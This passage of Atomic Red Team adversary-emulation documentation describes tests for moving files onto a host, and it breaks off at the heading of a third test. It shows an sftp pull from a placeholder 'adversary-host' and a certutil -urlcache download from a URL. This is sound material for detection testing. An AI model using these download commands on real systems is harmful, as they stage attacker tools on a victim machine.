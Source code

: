 <br/>
<br/>

## Atomic Test #6 - sftp remote file copy (pull)

Utilize sftp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Path of file to copy | Path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | String | adversary|
| remote_host | Remote host to copy from | String | adversary-host|
| local_path | Local path to receive sftp | Path | /tmp/victim-files/|

#### Attack Commands: Run with `bash`!

```bash
sftp #{username}@#{remote_host}:#{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #7 - certutil download (urlcache)

Use certutil -urlcache argument to download a file from the web. Note - /urlcache also works!

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | URL of file to copy | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | Path | Atomic-license.txt|

#### Attack Commands: Run with `command_prompt`!

```cmd
cmd /c certutil -urlcache -split -f #{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #8 - certutil download (verifyctl)
